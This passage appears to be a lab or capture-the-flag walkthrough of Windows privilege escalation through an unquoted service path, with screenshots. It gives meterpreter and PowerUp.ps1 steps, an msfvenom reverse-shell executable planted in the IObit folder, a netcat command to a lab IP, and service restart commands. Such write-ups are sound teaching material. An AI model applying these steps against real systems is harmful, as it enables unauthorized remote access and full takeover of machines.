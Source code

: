 <img width="878" alt="11" src="https://user-images.githubusercontent.com/28839345/164237004-32c989f8-c843-43ca-b07f-d3a43cb58334.png">



Step 3.

Type `load powershell` in your meterpreter.

Step 4.

Enter powershell by typing `powershell_shell`.

Step 5.

Type `. .\PowerUp.ps1`

<img width="1050" alt="12" src="https://user-images.githubusercontent.com/28839345/164237008-5b4a8e40-1746-406c-aada-f1d5d5930b72.png">


What is the use of CanRestart option in PowerUp.ps1?

It is important this is True. We must have the ability to restart the service otherwise the changes can’t take place to escalate our privileges. If you have access to restart the machine that’s an option, but we generally want to avoid restarting machines if possible.

By typing `Invoke-AllChecks` you can see that the CanRestart option is set to true for the service `AdvancedSystemCareService9`

<img width="1021" alt="13" src="https://user-images.githubusercontent.com/28839345/164237010-687f2889-46ab-4d06-96c2-b86a938189e0.png">


To escalate priviledges first use msfvenom to generate a reverse shell as an Windows executable.

<img width="720" alt="14" src="https://user-images.githubusercontent.com/28839345/164237012-22e72d31-d22a-475f-a99a-a9cb4a3a134d.png">


Since you know that the service with the unquoted path vulnerability is in the following path `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe` go to `C:\Program Files (x86)\IObit`

Then upload the Advanced.exe file in the /IObit directory.

Now all you need to do is restart the service AdvancedSystemCareService9 so the Advanced.exe can be executed.

Before restarting the service run nc in your localmachine by running the command 

`nc 10.10.136.236 4443`.

<img width="549" alt="15" src="https://user-images.githubusercontent.com/28839345/164237015-9ae2177b-e3b5-4070-afb8-c792f7513e8e.png">


Type in your meterpreter shell `powershell_shell` and restart AdvancedSystemCareService9 by using the following two commands

1. `net stop AdvancedSystemCareService9`

2. `net start AdvancedSystemCareService9`

<img width="683" alt="16" src="https://user-images.githubusercontent.com/28839345/164237016-ffa9983a-a92c-49e3-b623-cdf673fe3137.png">

